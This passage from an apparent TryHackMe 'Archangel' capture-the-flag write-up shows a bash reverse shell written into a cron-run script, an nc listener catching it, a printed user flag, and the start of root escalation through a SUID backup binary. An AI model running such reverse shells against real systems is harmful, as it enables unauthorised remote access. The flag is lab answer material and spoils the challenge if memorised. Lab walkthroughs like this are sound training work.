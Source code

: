   ```
  orld.sha@ubuntu:/opt$ echo 'bash -i >& /dev/tcp/[YOUR-THM-IP]/1234 0>&1 ' > hellowo
  www-data@ubuntu:/opt$ cat helloworld.sh 
  bash -i >& /dev/tcp/[YOUR-THM-IP]/1234 0>&1 
  
  nc -lvnp 1234 
  listening on [any] 1234 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.191.193] 38426
  bash: cannot set terminal process group (1303): Inappropriate ioctl for device
  bash: no job control in this shell
  archangel@ubuntu:~$ whoami
  whoami
  archangel
  archangel@ubuntu:~$ id
  id
  uid=1001(archangel) gid=1001(archangel) groups=1001(archangel)
  ```

- Tutorial ngl, now read the second user flag and move to root escalation.

  ```
  archangel@ubuntu:~$ cd secret   
  cd secret
  archangel@ubuntu:~/secret$ ls -al
  ls -al
  total 32
  drwxrwx--- 2 archangel archangel  4096 Nov 19  2020 .
  drwxr-xr-x 6 archangel archangel  4096 Nov 20  2020 ..
  -rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
  -rw-r--r-- 1 root      root         49 Nov 19  2020 user2.txt
  
  archangel@ubuntu:~/secret$ cat user2.txt
  cat user2.txt
  thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
  ```

---

## 👑 Root Privilege Escalation

- Since we are already there let's check that backup file. If you use `cat` you'll get bunch of giberrish but `strings` will do the work here.

  ```
  archangel@ubuntu:~/secret$ strings backup
  [SNIP!]
  []A\A]A^A_
  cp /home/user/archangel/myfiles/* /opt/backupfiles
  :*3$"
  GCC: (Ubuntu 10.2.0-13ubuntu1) 10.2.0
  /usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/Scrt1.o
  [SNIP!]
  ```
  